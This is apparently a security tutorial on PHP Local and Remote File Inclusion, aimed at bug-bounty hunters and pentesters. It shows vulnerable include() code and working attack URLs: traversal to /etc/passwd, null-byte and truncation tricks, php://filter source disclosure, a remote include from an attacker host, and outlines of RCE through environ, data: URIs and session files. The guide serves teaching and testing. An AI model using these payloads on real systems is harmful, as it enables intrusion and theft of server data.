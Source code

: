 # Local File Inclusion

Local File Inclusion is a common vulnerability in PHP, where the attacker leverages functions such as:
- require
- include
- require_once
- include_once

To **extract sensitive information** or gain **Remote Code Execution** on the web server.

There are many techniques that can help us, ethical hackers, to actually gain the sensitive information or gain access to the web server.

But first, we need to know, how LFI works.

## How does Local File Inclusion work?

Here is a basic example of how this attack works, let's say we have the following snippet of PHP code in our project:
```php
<?php
    $file = $_GET['file'];

    if(isset($file)) {
        include("a/b/c/$file");
    } else {
        include("a/b/c/index.php");
    }
?>
```

This code first assigns the `?file=` query parameter value to the `$file` variable. Next, it check if `$file` is initialized with a value, if it is, it will "copy" content from a file in the `a/b/c` directory and run PHP code, if there is any in that file. That is how the `include` function works.

We notice that we have control over the `$file` variable, since the `$_GET` object just returns all the available URL [query parameters](https://en.wikipedia.org/wiki/Query_string).

A normal request for an example homepage would look like this:

```
https://example.com/?file=home.php
```

This will add the value `home.php` to the property `$_GET['file']`.

To check if the code is sanitized in some way (conducting a black box penetration test), we can try to request for `/etc/passwd`:

```
https://example.com/?file=../../../../../../../../etc/passwd

OR

https://example.com/?file=/etc/passwd
```

If the webpage gives us the content of `/etc/passwd`, we can try a couple more tests to safely say that we found a LFI vulnerability (it would be a critical severity vulnerability if we would be able to get RCE working as well) and report it to the company through a bug bounty program, or write it in the report if we are conducting a pentest.

The application also can have a suffix that can prevent us from accessing files other than `.php` or one defined in the source code, for example:

```php
<?php 
    $file = $_GET['file'];

    if(isset($file)) {
        include("a/b/c/$file".".php");
    } else {
        include("a/b/c/index.php");
    }
?>
```

The only difference between the previous snippet of code is that we now append the `.php` string to the end of the `include` function parameter.

An example request would be:

```
https://example.com/?file=home
```

How can we evade the `.php` extension? 

## Extension evasion techniques

### Path Truncation ( Available in versions older than PHP 5.3.0 )
This technique takes advantage of the file size limit of PHP. Any file that exceeds 4096 bytes will have everything after that size discarded, including the ".php" suffix. An example of this kind of attack would be:

```
https://example.com/?file=invalidFile../../../../../../../../etc/passwd/././././<repeat "./" until 4096 Bytes or more>
```

There are a couple of attack payloads described [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion#path-truncation).

### Null Byte Injection ( Available in versions older than PHP 5.4.0 )
Null Byte Injection is a way to evade suffixes with one NULL character. The way it works is that you append the [%00](https://en.wikipedia.org/wiki/Null_character) character to the end of a request that can indicate to the PHP interpreter that "Hey, this is the end of the string so everything after that should be discarded". This means that the request:

```
https://example.com/?file=/etc/passwd%00
```

Would resolve in the source code like this:

```php
<?php
    $file = "/etc/passwd%00"; // $_GET['file']

    if(isset($file)) {
        include("/etc/passwd"); // The .php extension is discarded because of the NULL char.
    } else {
        include("a/b/c/index.php");
    }
?>
```

## Information Extraction Techniques

### PHP Filter Technique
PHP wrappers are used to interact with streams of data such as stdin and stdout. We will actually only leverage the `php://filter` wrapper to read files without running PHP code if there is any. To start, we first check for LFI (first chapter). Then, to read for example, `home.php`, without running the PHP code inside, we just send the following request:

```
https://example.com/?file=php://filter/convert.base64-encode/resource=home.php
```

This will convert the `home.php` file, and encode it in **base64**, giving us the **full encoded source code**. We can then decode it in a program of our liking, **CyberChef**, **dcode.fr** are one of many websites we can use. 

We can also use `php://filter/string.rot13/resource=<x>`, but bear in mind that if you use it, the browser WILL attempt to parse the whole source code since special characters like `<` and `>` are not encoded, so it will be a bit more difficult to extract information from the website with this technique, but if `convert.base64-encode` doesn't work for some weird reason, why not try the other?

## Remote Code Execution Techniques

### Environ Technique
In the `/proc/self/envrion` file, we have environment variables that are loaded for the current process. If it allows us to, we can gain information about a couple of header values, such as the `HTTP_USER_AGENT` environment variable. We simply modify our `User-Agent` header to php source code and include `/proc/self/environ` to execute it and potentially gain Remote Code Execution. Bear in mind that `self` here will be automatically converted to the according process directory when accessing it within the application.

### Data URI Scheme Technique
Using the `data:` URI scheme, we are able to send PHP code to the webserver, include it and execute the code. An example would be:

```php
<?php 
    $file = $_GET['file'];

    if(isset($file)) {
        include($file);
    } else {
        include("a/b/c/index.php");
    }
?>
```

**NOTE** that this technique is only available if the `allow_url_include` option is set to true.

### PHP Session Cookie Technique
This technique leverages session cookie operations by modifying values that are saves inside session files. The files are by default located in `/tmp/sess_<sess_id>`, where `sess_id` is the value of the `PHPSESSID` cookie that you get by logging into a site, or even viewing it (depends where the `session_start` function exists in the code). 

To test it, consider a page where you have a login system. When logging in, you always get a `PHPSESSID` cookie, so that the web server remembers who you are when navigating from page to page. It usually saves user input that you control, so by including the session file and inspecting it, you can know the attack vectors available for you.

After knowing what inputs you control, you simply delete that session cookie and make another one with **PHP source code** as the username and try to login.

## Remote File Inclusion

Remote File Inclusion is the same as Local File Inclusion, except that we can download data from another domain using the `http://` URI scheme that the vulnerable functions support.

One thing to note is that Remote File Inclusions only work if `allow_url_include` is enabled, which isn't enabled by default.

This is an example request for a remote file:
```
https://example.com/?file=https://<attacker-ip>/<attacker-file>.php
```

## Useful resources:
- [Null Byte Injection - PHP](https://resources.infosecinstitute.com/null-byte-injection-php/)
- [File Inclusion - HackTricks.xyz](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [Remote File Inclusion - Acunetix](https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/)
- [OWASP - Testing for Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
